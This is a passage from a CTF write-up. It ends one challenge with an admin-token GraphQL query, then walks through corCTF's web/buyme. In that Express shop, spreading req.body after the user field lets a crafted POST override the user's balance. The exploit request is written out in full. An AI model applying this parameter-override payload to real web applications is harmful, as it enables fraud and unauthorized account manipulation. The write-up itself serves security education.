 Using the admin's token got the flag.

```graphql
{
    flag(token: "3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b")
}
```
```json
{
    "data": {
        "flag": ""
    }
}
```

## web/buyme
> I made a new site to buy flags! But no hoarding, okay :<

> https://buyme.be.ax

> [buyme.tar.xz](buyme.tar.xz)

The source was provided this time, so I started with a code audit. It was a typical 'shop' CTF webapp for 'flags' built on Express, using in-memory JavaScript `Map`s for state.
There were functions for registration, login, purchasing and viewing flags, but not changing a user's balance. So I focused on the `buy` endpoint.
```js
router.post("/buy", requiresLogin, async (req, res) => {
    if(!req.body.flag) {
        return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
    }

    try {
        db.buyFlag({ user: req.user, ...req.body });
    }
    catch(err) {
        return res.redirect("/flags?error=" + encodeURIComponent(err.message));
    }

    res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});
```

A subtle bug jumped out at me, as I'd run into it several days beforehand on a personal project.
The call to `db.buyFlag` uses the [spread operator](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_syntax#spread_in_object_literals) `...req.body`, but it's used after setting the user property. This allows the user property to be overriden by the contents of `req.body`. `req.body` is just the request body, so we can set the user arbitrarily.

The `buy` endpoint requires login, so I registered a user and extracted the `user` cookie.
I also visited the shop page, to get the name and price of the target flag (`corCTF`).

```http
POST /api/buy HTTP/1.1
Content-Type: application/json
Cookie: user=s%3Apl4nty.WTNCqX1%2F%2F4sICQw5z2kLMj5e%2FpH4UNAvqYBU5wAGs%2Bo

{
	"flag":  "corCTF",
    "user": {
        "user":"pl4nty",
        "money":1e+300,
        "flags":[]
    }
}
```
